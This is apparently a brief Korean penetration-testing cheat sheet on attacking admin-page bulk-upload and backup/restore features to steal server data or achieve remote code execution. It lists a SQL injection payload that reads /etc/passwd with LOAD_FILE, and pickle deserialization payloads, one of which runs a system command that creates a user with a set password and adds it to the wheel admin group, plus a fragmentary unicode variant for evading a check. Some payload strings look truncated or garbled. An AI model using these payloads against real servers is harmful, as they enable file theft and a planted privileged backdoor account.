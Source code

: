 # Integrity Verification

관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나
특정 설정을 백업/복구하는 기능이 있을 경우
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능

SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
